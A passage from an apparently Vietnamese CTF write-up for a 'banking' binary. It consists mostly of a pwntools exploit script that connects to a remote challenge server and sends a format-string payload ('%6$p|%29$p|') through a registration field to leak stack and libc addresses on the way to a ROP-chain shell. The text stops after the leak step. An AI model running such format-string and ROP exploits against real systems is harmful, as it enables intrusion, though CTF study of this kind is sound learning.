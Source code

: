 ### Build ropchain
Okay, việc chúng ta bây giờ chỉ là đi build ropchain và lấy shell. 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./banking_patched") 
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10002)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *info+23
        b *main+0x54
        continue
    """)
    pause() 

def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)

# debug()

# Leak stack + libc 
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
```